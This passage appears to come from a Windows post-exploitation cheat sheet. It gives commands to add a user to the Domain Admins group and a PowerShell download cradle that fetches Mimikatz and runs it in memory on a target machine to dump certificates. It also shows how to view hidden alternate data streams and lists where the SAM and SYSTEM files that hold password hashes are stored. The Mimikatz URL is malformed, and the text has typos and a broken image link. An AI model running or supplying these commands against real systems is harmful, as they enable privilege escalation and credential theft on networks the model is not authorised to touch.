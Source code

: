 #### Adding a user to the domain admins group

```
Net group ‘Domain Admins’ /add [user]
```

#### Dumping certificates from target machine with powershell and mimikatz in memory:

On the target machine launch the following:

```
PS> $browser = New-Object System.Net.WebClient
PS> $browser.Proxy.Credentials =
[System.Net.CredentialCache]::DefaultNetworkCredentials
PS>
IEX($browser.DownloadString("https://raw.githubusercontent.Mimikatz.ps1"))
PS> invoke-mimikatz -DumpCerts
```

#### Viewing alternate data streams in a directory

Method \[1] From the command promopt

```
dir /r
```

This shows if any files have hidden streams To view the hidden file, we use the more command. Don't forget to replace the file name with the actual hidden file listed when you issued \[dir /r]

```
more < hm.txt:file.txt
```

Method\[2] Using powershell First we issue the below command on the file that is suspected to contain AIDS or alternate data streams

```
get-item .\hm.txt -stream *
```

An output similar to below is expected !\[\[AIDS-Powershell.jpg]] Then we view the content of the file using the command below

```
get-content .\filename1.txt -stream filename2.txt
```

#### Dumping the SAM Database

The Windows Security Accounts Manager (SAM) database is one of the first places that you are likely to target when you gain access to a Windows system. The SAM contains password hashes that can be easily dumped.

The locations of SYSTEM and SAM are below

```
C:\Windows\System32\config
C:\Windows\Repair 
C:\Windows\System32\config\RegBack
```
